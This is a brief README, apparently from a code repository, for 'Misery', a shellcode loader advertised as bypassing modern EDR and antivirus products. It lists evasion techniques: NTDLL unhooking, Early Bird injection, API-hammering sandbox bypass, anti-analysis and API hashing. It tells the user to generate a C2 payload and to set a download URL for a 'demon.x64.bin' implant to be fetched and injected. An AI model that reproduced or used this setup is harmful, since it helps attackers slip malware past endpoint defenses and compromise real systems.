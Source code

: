 # Misery (Evade Av Like Taxes)
## Misery Loader to bypass modern EDR solutions 🖥️ 🛠️
![miserybanner](https://i.imgur.com/yCk788y.jpeg)

## Misery is a code injector with some features
   * 🪝 Unhook NTDLL from suspended process
   * 💉 Early Bird Injection
   * 📦 Sandbox bypass(Api Hammering) ⚒️
   * 🚫 Anti Analysis Functions
   * 😈 Compile Time API Hashing with HashStringJenkins algorithm
---

### 📁 Generate the payload with the c2 of your choice(*.bin)
### 🥷 If you want debug output, uncomment all printf lines
### 🏷️Change line 268 -> LPCWSTR szUrl = L"http://127.0.0.1/demon.x64.bin"



